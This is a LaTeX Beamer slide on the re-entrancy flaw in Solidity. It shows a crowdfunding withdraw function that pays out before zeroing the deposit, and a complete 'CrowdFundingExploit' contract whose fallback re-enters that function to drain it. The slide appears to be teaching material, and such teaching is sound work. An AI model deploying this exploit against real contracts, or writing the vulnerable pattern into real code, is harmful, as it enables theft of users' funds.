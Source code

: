 \documentclass[xcolor=x11names,compress]{beamer}
\begin{document}
\begin{frame}[fragile]
	\frametitle{Re-entrancy}
	\begin{overprint}
		\begin{minipage}[c][0.7\textheight][c]{\textwidth}
			\begin{verbatim}
mapping(address => uint) deposit;

function withdrawDeposit() public {
    require(state == State.FAILED);
    require(deposit[msg.sender] != 0);
    
    msg.sender.call.value(deposit[msg.sender])();
    deposit[msg.sender] = 0;
}
\end{verbatim}
		\end{minipage}
		\begin{minipage}[c][0.7\textheight][c]{\textwidth}
			\begin{verbatim}
contract CrowdFundingExploit {
    address owner = msg.sender;

    function participate(CrowdFunding cf) payable public {
        cf.call.value(address(this).balance)();
    }
    
    function () public payable {
        if(gasleft() > 100000) {
            CrowdFunding(msg.sender).withdrawDeposit();
        }
    }
    
    function attack(CrowdFunding cf) public {
        cf.withdrawDeposit();
    } 
    
    function withdraw() public {
        owner.transfer(address(this).balance);
    }
}
    \end{verbatim}
		\end{minipage}
		\begin{minipage}[c][0.7\textheight][c]{\textwidth}
			\begin{verbatim}
function () public payable {
    if(gasleft() > 100000) {
        CrowdFunding(msg.sender).withdrawDeposit();
    }
}


\end{verbatim}
\end{minipage}
\end{overprint}
\end{frame}
\end{document}
